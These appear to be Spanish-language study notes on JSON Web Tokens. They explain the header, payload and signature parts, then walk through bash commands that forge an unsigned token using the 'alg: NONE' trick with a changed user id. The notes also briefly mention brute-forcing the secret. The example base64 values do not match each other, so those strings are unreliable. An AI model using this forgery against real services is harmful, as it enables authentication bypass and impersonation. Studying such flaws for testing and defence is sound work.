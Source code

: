 -- - 

Los JWT estan compuesto por 3 partes:
1. ==El header== ---> Algorith & Token type
2. **El payload** ---> Data
3. *La signature* ---> Verify Signature 
==eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9==.**eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ**.*SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c*

Estos mismos estan hechos en encodeados en base64 por lo que se los puede encodear de decodear en su propia web *jwt.io* o en la misma terminal.

-- -
## Posibles fallas en el uso de los JWT
### Algorithm = None y no ponemos signature
```bash
echo -n '{"alg":"NONE","typ":"JWT"}' | base64
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0= ---> header modificado y encodeado en base64
```

```bash
echo -n '{"id":2,"iat":1724327756,"exp":1724331356}' | base64
eyJpZCI6MiwiaWF0IjoxNzI0MzI3NTA4LCJleHAiOjE3MjQzMzExMDh9
```
Ahora podriamos intentar juntar las 2 cadenas resultantes unidas por un punto para ver si se puede burlar la signatura
```bash 
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MiwiaWF0IjoxNzI0MzI3NzU2LCJleHAiOjE3MjQzMzEzNTZ9. 
```
**Aclaracion:**
Esto funciona ya que al poner **"alg":"NONE"** no hay ningun algoritmo el cual se aplique a la signature por lo que no hace falta poner la ultima cadena, lo cual nos permitiria crear nuestros propios JWT.

**IMPORTANTE:**
Borrar el "=" que te da la primer cadena y agregar un punto al final de las 2 cadenas unidas. 
### Brute Force Attack sobre el secreto
Este otro metodo consiste en descubrir el secreto mediante puras combinaciones hasta que nos tome el JWT como valido. 
No lo considero factible.
